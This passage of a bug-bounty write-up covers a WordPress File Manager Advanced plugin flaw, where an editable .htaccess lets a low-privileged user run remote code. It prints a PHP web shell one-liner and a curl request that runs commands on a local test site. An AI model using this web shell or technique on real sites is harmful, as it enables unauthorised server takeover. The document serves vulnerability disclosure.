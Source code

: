 So... **If `enable_htaccess` is set to `1`**, we should be able to **edit an existence `.htaccess` file**. As I mentioned previously, if we can upload/edit `.htaccess` files, we can get RCE!

Wait, `enable_htaccess`? Does this variable name means `.htaccess` is intended to be writable?? Well, no. We can see this in the "Settings" page:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-2/images/Pasted%20image%2020250108183153.png)

Huh, "**Display**"? So, this setting means `.htaccess` files **should be read-only**?? For a little bit of context here, originally `$hide_htaccess` is just an empty array, which means there's no file permission for `.htaccess` file. However, after fixing one of my findings in this plugin, version 5.2.12, changed the `$hide_htaccess` variable. You can read the diff in [here](https://plugins.trac.wordpress.org/changeset/3200092/file-manager-advanced/trunk/application/class_fma_connector.php?old=3199242&old_path=file-manager-advanced%2Ftrunk%2Fapplication%2Fclass_fma_connector.php).

With that said, we can just to edit an existence `.htaccess`! Although WordPress will [automatically generate one during the installation](https://developer.wordpress.org/advanced-administration/server/web-server/httpd/), administrators might delete it. Fortunately, the plugin already created a `.htaccess` file for us! It's in path `wp-content/plugins/file-manager-advanced/application/library/files/.htaccess`. (This file was created back in [version 5.2.5](https://plugins.trac.wordpress.org/changeset/3107587/file-manager-advanced/trunk/application/library/files/.htaccess))

So, let's allow role "Subscriber" to access the file manager, enable the "Display .htaccess?" setting, and edit that `.htaccess` file!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-2/images/Pasted%20image%2020250108195907.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-2/images/Pasted%20image%2020250108195957.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-2/images/Pasted%20image%2020250108200113.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-2/images/Pasted%20image%2020250108200207.png)

Then, upload a `.txt` file with our PHP payload:

```shell
┌[siunam♥Mercury]-(~/Downloads)-[2025.01.08|19:45:27(HKT)]
└> echo -n ';;<?php system($_GET["cmd"]); ?>' > webshell.txt
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-2/images/Pasted%20image%2020250108200302.png)

Finally, we should be able to execute arbitrary PHP code via sending a request to path `wp-content/plugins/file-manager-advanced/application/library/files/<uploaded_filename>.txt`:

```shell
└> curl --get http://localhost/wp-content/plugins/file-manager-advanced/application/library/files/webshell.txt --data 'cmd=id'
;;uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Nice!

## No Path Validation in Loading elFinder Locale Script - [FileOrganizer: Local JavaScript File Inclusion](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/fileorganizer/fileorganizer-114-authenticated-administrator-local-javascript-file-inclusion)
